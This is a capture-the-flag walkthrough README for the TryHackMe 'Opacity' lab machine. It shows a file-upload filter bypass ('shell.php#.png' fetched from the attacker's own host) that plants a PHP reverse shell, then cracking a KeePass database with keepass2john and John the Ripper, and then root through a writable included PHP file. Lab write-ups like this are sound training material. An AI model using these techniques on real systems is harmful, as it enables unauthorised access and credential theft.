# Opacity CTF - TryHackMe Room
# **!! SPOILERS !!**
#### This repository documents my walkthrough for the **Opacity** CTF challenge on [TryHackMe](https://tryhackme.com/room/opacity). 
---


we know about 3 open ports: 22, 80, 139



using feroxbuster to find hidden folders



we found `/cloud/` where we have ability to upload images



we can upload image using

```
http://10.14.91.59:8081/some.jpeg
```

maybe we could smuggle reverse shell via file upload



i used this payload to upload the shell

```
http://10.14.91.59:8081/shell.php#.png
```

this is our file localization `http://10.10.239.96/cloud/images/shell.php#.png`



it worked we have shell as www-data



linpeas found some keepass databse



we can use keepass2john to create hash 

```
$ /usr/sbin/keepass2john dataset.kdbx > crack.txt
$ john crack.txt --wordlist=/usr/share/wordlists/rockyou.txt
```

we cracked the password for the keepass databse



we now can use KeePass2 to open the database, provide master password, copy the sysadmin user password 

now we can ssh as sysadmin and we have user flag



we can now finally look into scripts folder

script.php file contains



we see that the file requires `lib/backup.inc.php`

we can modify the `backup.inc.php` file so it contains a reverse shell

now we got hit with shell as root 

we got root shell and root flag



# MACHINE PWNED
